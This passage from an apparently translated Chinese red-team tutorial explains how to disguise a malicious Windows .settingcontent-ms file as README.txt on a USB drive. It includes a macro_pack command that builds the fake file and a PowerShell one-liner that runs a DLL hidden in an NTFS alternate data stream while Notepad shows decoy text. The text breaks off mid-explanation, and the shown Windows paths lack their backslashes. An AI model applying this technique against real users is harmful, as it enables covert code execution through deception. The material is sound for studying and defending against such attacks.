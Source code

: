 

## 三、利用恶意设置

**目标系统：**MS Windows 10

**主要原理：**[Matt Nelson](https://twitter.com/enigma0x3)之前发表过有关[SettingContent-ms](https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39)文件的研究结果，这里用到的就是这个原理。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E7%AD%96%E7%95%A5"></a>利用策略

在这个场景中，我们的任务是让目标用户认为他打开的是“README.txt”文件，实际上他运行的是一个恶意的settingcontent-ms文件。

由于settingcontent-ms文件遵循严格的XML规范，因此貌似我们无法像前一种方法那样将其与HTA文件融合起来。这里我们可以使用NTFS的Alternate Data Streams（ADS，供选数据流）来隐藏并运行DLL载荷。

[![](https://p1.ssl.qhimg.com/t01e885a2fd13146aac.jpg)](https://p1.ssl.qhimg.com/t01e885a2fd13146aac.jpg)

这个settingcontent-ms文件将会执行隐藏在Alternate Data Stream（README.txt.settingcontent-ms:R）中的DLL，也会运行Notepad来显示另一个ADS（README.txt.settingcontent-ms:T.txt）中存放的欺诈文本。

settingcontent-ms文件的优势在于它不会像LNK或者URI文件那样图标上有个快捷箭头。

### <a class="reference-link" name="%E6%9E%84%E5%BB%BA%E6%AC%BA%E8%AF%88%E6%96%87%E6%9C%AC"></a>构建欺诈文本

首先我们可以构建一个简单的文本文件，当目标用户打开readme文件时就会在notepad中看到具体内容。

```
echo "This is a simple README file." &gt; Text.txt
```

### <a class="reference-link" name="%E6%9E%84%E5%BB%BA%E6%81%B6%E6%84%8F%E8%AE%BE%E7%BD%AE%E5%BF%AB%E6%8D%B7%E6%96%B9%E5%BC%8F%E6%96%87%E4%BB%B6"></a>构建恶意设置快捷方式文件

我们可以使用[macro_pack](https://github.com/sevagas/macro_pack)来生成settincontent-ms文件。比如，我们可以使用如下命令来生成一个伪造的`README.txt`文件，该文件可以通过命令行来运行计算器应用：

```
echo 'C:windowssystem32cmd.exe /c calc.exe' '.' |  macro_pack.exe -G README.txt.settingcontent-ms
```

能弹出计算器的确很不错，但我们真正需要的是能够运行载荷。DLL以及欺诈文件会隐藏在USB介质NTFS文件系统的Alternate Data Stream中。我们所面临的问题在于settingcontent-ms文件默认会在“C:windowssystem32”中打开，这意味着我们需要找到一种方法来定位USB介质所对应的卷标。我使用了powershell来完成这个任务，可能还有其他方法能够解决这个问题。

我希望执行的命令行如下所示：

```
%windir%system32cmd.exe /c powershell.exe $drive=(Get-WmiObject Win32_Volume -Filter "DriveType='2'").Name;Start-Process "notepad.exe" "$driveREADME.txt.settingcontent-ms:T.txt"; Start-Process "control.exe" "$driveREADME.txt.settingcontent-ms:R"
```

这段命令所做的操作包括：
